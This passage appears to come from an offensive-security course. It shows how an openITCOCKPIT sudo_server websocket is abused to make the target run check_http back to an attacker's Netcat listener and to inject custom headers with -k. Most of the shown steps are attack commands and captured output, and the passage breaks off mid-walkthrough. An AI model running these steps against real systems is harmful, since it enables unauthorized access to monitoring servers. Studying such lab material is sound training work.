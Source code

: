 After reviewing the output of all the commands in the current directory, we don't find any argument that allows for direct command execution. However, the check_http command is particularly interesting. Reviewing the usage instructions for check_http in Listing 70 reveals that it allows us to inject custom headers with the -k argument. The ability to inject custom headers into a request is useful as it might provide us a blank slate to interact with local services that are not HTTP-based. This is only possible if we can set the IP address of the command to 127.0.0.1, can set the port to any value, and can set the header to any value we want. To find if we have this level of control, let's first start a Netcat listener on Kali.

kali@kali:~$ nc -nvlp 8080
listening on [any] 8080 ...
Listing 71 - Starting Netcat listener

Now we'll have openITCOCKPIT connect back to us using the check_http command so that we can review the data it sends.

kali@kali:~/scripts$ python3 wsclient.py --url wss://openitcockpit/sudo_server -k 1fea123e07f730f76e661bced33a94152378611e
[+] Connected!
./check_http -I 192.168.119.120 -p 8080
CRITICAL - Socket timeout after 10 seconds
Listing 72 - Connecting back to Kali

The listener displays the data that was received from the connection:

listening on [any] 8080 ...
connect to [192.168.119.120] from (UNKNOWN) [192.168.121.129] 34448
GET / HTTP/1.0
User-Agent: check_http/v2.1.1 (monitoring-plugins 2.1.1)
Connection: close
Listing 73 - Initial HTTP connection

Now, we will run the same check_http connection but add a header with the -k argument. For now, we'll send just a string, "string1".

kali@kali:~/scripts$ python3 wsclient.py --url wss://openitcockpit/sudo_server -k 1fea123e07f730f76e661bced33a94152378611e
[+] Connected!
./check_http -I 192.168.119.120 -p 8080 -k string1
CRITICAL - Socket timeout after 10 seconds
Listing 74 - Connecting to Kali with header

Returning to our listener, we find that the header was added.

kali@kali:~$ nc -nvlp 8080
listening on [any] 8080 ...
connect to [192.168.119.120] from (UNKNOWN) [192.168.121.129] 34508
GET / HTTP/1.0
User-Agent: check_http/v2.1.1 (monitoring-plugins 2.1.1)
Connection: close
string1
Listing 75 - Connection with header

Next, we'll make the header longer, sending the argument -k "string1 string2" (including the double quotes) and check our listener:
